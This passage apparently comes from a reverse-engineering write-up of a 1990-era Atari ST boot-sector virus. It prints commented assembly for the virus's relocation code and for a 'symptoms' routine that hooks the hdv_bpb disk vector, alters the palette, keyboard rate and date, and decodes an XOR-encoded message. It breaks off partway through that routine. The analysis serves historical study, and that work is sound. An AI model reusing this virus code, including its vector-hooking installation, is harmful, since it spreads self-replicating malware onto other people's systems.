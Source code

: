 ```asm

START:
        LEA       BOOTSECTOR_START(PC),A0
        MOVEA.L   DISKBUFP.L,A1
        ADDA.L    #$600,A1
        MOVEA.L   A1,A2                             ; A2 = A1 = diskbuf+1536
        MOVE.W    #$7F,D0                           ; for d0 = 127 to 0
.copy:
        MOVE.L    (A0)+,(A1)+                       ; copy 512 bytes from A0= (diskbuf) to A1=diskbuf+1536
        DBF       D0,.copy

        LEA       SYMPTOMS(PC),A0                   ; A0 = SYMPTOMS
        LEA       BOOTSECTOR_START(PC),A1           ; A1 = BOOTSECTOR_START
        SUBA.L    A1,A0                             ; A0 = A0 - BOOTSECTOR_START
        ADDA.L    A0,A2                             ; A2 = diskbuf + 1536 + (SYMPTOMS - BOOTSECTOR_START)
        JMP       (A2)                              ; jump there! Symtoms relocated in diskbuf+1536
```

### The Symptoms routine

The symptoms routine:

 - Save the current `hdv_bpb` vector and set the new one `HDV_BPB_VECTOR`.
 - Change the ST palette,.
 - Change the keyboard rate (delay before one key and repeating keys).
 - Change the date to `1990-10-7` which is probably its creation date.
 - Decode the XOR-encoded message (key: `0x72`).
 - Use `CCONWS` Trap to display the message (with scrolling).
 - Re-encode the message.

```asm
; ---------------------------------------------------------------------------------------------------------- 
; SYMPTOMS (called onlyt at boot when the virus installs itself)
; ---------------------------------------------------------------------------------------------------------- 
SYMPTOMS:
        LEA       OLD_HDV_BPB_VECTOR(PC),A0         ; save old hdv_bpb vector
        MOVE.L    HDV_BPB.L,(A0)

        LEA       HDV_BPB_VECTOR(PC),A0
        MOVE.L    A0,HDV_BPB.L                      ; replace by new vector

        PEA       PALETTE_DATA(PC)                  ; palette = PALETTE
        MOVE.W    #6,-(sp)                          ; VOID Setpalette(word * palette)
        TRAP      #$E

        MOVE.W    #1,-(sp)                          ; rate = 1 - rate indicates the amount of time between repeats (in 50Hz ticks)
        MOVE.W    #$A,-(sp)                         ; delay = 10 - delay specifies the amount of time (in 50Hz ticks) before a key begins repeating
        MOVE.W    #$23,-(sp)                        ; WORD Kbrate( word delay, word rate ) : reads/modifies the keyboard repeat/delay rate.
        TRAP      #$E                               ; Xbios
        
        MOVE.W    #$1547,-(sp)                      ; date =  1990-10-7 - date is a bit array arranged as illustrated under Tgetdate(): Bits 15-9: YEars since 1980, Bits 8-5: Month, Bits 4-0: Date
                                                    ;         0001010-1010-00111
        MOVE.W    #$2B,-(sp)                        ; WORD Tsetdate( uword date ) : sets the current GEMDOS date.
        TRAP      #1                                ; Gemdos

```